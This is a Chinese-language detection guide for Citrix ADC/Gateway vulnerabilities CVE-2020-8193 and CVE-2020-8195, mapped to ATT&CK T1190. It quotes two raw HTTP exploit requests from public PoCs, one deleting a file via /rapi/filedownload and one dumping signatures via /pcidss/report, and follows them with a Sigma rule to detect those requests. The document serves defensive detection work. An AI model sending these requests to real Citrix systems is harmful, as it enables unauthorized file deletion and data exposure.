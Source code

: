 # T1190-CVE-2020-8193/CVE-2020-8195

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Citrix Systems Citrix Application Delivery Controller（ADC）等都是美国思杰系统（Citrix Systems）公司的产品。Citrix Application Delivery Controller是一款应用交付控制器。Citrix Systems Gateway（Citrix Systems NetScaler Gateway）是一套安全的远程接入解决方案。Citrix System SDWAN WAN-OP是一款SD-WAN（虚拟软件定义的广域网）设备。Citrix Systems Citrix ADC、Citrix Gateway和Citrix SDWAN WAN-OP中存在安全漏洞。攻击者可利用该漏洞绕过权限限制。

## 检测日志

HTTP.log

## 测试复现

漏洞利用方式建议参考：

Citrix Systems产品安全漏洞 CVE-2020-8193, CVE-2020-8195 and CVE-2020-8196 poc

<https://www.cnblogs.com/potatsoSec/p/13281577.html>

Citrix安全研究历险记

<https://blog.unauthorizedaccess.nl/2020/07/07/adventures-in-citrix-security-research.html>

## 测试留痕

暂无实测，截取部分公开资料内容作为留痕数据。

### 删除文件

```yml
POST /rapi/filedownload?filter=remove:1,path:%2ftmp%2ftest HTTP/1.1 
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
rand_key: 2061490565.1580290269373855
DNT: 1
X-NITRO-USER: henk
X-NITRO-PASS: henk
Connection: close
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; rdx_pagination_size=25%20Per%20Page; SESSID=05afba59ef8e0e35933f3bc266941337
Content-Type: application/xml
Content-Length: 31

<clipermission></clipermission>
```

以上内容截取自<https://www.cnblogs.com/potatsoSec/p/13281577.html>

### 获取默认所有签名

```yml
POST /pcidss/report?type=all_signatures&sid=254&username=nsroot&profile_name=default&set=0&sig_name=_default_signature_&sig_start_no=1 HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/pcidss/launch_report?type=main
Content-Type: application/xml
Content-Length: 0
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

以上内容截取自<https://blog.unauthorizedaccess.nl/2020/07/07/adventures-in-citrix-security-research.html>

## 检测规则/思路

### sigma规则

```yml
title: 检测可疑的CVE-2020-8193/CVE-2020-8195
references:
    - https://www.cnblogs.com/potatsoSec/p/13281577.html
    - https://research.nccgroup.com/2020/07/10/rift-citrix-adc-vulnerabilities-cve-2020-8193-cve-2020-8195-and-cve-2020-8196-intelligence/
status: experimental
date: 2020/07/10
tags:
    - attack.initial_access
    - attack.t1190
logsource:
    category: webserver
detection:
    selection1:
        c-uri|contains: 
            - '/rapi/filedownload?filter=path:%2F' #删除文件时POST请求，URL路径包含的字段。
    selection2:
        c-uri|contains|all:
            - '/pcidss/report' #获取所有默认签名时POST请求URL内包含的字段
            - 'type=all_signatures'
            - 'sig_name=_default_signature_'
    condition: 1 of them
fields:
    - client_ip
    - vhost
    - url
    - response
falsepositives:
    - Unknown
level: critical
```

### 建议

建议使用HTTP流量+安全设备进行检测分析，研判攻击是否成功。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>
